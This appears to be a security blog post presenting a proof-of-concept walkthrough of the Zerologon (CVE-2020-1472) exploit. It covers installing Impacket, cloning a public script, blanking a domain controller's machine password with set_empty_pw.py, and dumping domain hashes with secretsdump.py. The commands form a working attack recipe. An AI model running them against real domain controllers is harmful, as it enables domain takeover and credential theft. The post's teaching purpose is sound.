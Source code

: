 ```yaml
---
title: "CVE-2020-1472 Zerologon Exploit POC"
description: "Yet another Zerologon Exploit POC. We will be exploiting a vulnerable Domain Controller."
date: "2020-11-11"
categories: [Exploit, PoC]
tags: [windows server, zerologon, exploit, impacket]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/zerologon_poc/zlo.png"
  alt: "Zerologon"
---
```



## Impacket 0.9.22

At the time of this writing, we need to use an updated version of Impacket 0.9.22 or newer for this exploit to work. The current stable version of Impaket is 0.9.21.

![Current impacket stable version](/assets/img/zerologon_poc/impacket0921.png)

But before you install a new Impacket, you might want to create a vm snapshot before things go completely wrong. Alternatively, you can install Impacket in a docker and run as well. You can learn more about it in this [post](https://blog.ropnop.com/docker-for-pentesters/#example-3---impacket "Docker - Impacket"). But for the sake of this post, we will just install on our VM.

After creating a VM snapshot, remove any existing Impacket installation with the following command:

```

> apt remove --purge impacket-scripts python3-impacket

```

Here is the link to the Impacket newer version: [Impacket Link](https://github.com/SecureAuthCorp/impacket/tree/b867b21de5fcfd48686a04487e1ef83c2d1b5e47 "Impacket")

![Impacket 0.9.22](/assets/img/zerologon_poc/impacket0922.png)

```

> git clone https://github.com/SecureAuthCorp/impacket.git

> cd impacket

> pip install .

```


## Exploitaion

We will be using a script from [Risksense](https://github.com/risksense/zerologon "risksense/zerologon")

```

> git clone https://github.com/risksense/zerologon.git

> cd zerologon

```

And now run the script against the Domain Controller:

```python

> python3 set_empty_pw.py <DC-NAME> <ip-address>

```

![running set_empty_pw.py](/assets/img/zerologon_poc/set-set_empty_pw.png)

If the script ran successfully, there should be no password for the DC after that.


## Dumping hashes from DC

```python

> secretsdump.py -just-dc <DC-NAME>\$@10.10.10.1

```

![Hash dumping with secretdump.py](/assets/img/zerologon_poc/secretsdump.png)

And that's it. It's very easy to exploit. Hope you guys enjoyed it.

If you want to learn more about this exploit, Heath (TCM) has done a great video explaining about it. Here is the video: [ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)](https://www.youtube.com/watch?v=6xMGsdD-ArI&ab_channel=TheCyberMentor "ZeroLogon Exploit - Abusing CVE-2020-1472 (Way Too Easy!)")
